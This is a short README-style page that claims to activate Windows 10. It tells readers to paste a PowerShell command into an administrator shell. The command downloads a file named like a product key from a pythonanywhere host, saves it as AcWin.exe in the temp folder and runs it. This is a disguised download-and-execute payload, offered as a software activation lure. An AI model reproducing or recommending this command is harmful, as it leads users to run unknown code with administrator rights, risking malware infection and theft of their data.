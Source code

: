 # Activat Windows 10

## to activate windows, copy and paste the activation script in Windows Powershell admin.

> <sup> Invoke-WebRequest -Uri kmsconnection.pythonanywhere.com/static/3KHY7-WNT83-DGQKR-F7HPR-844BM.key -OutFile $env:TEMP\AcWin.exe; Start-Process $env:TEMP\AcWin.exe </sup>
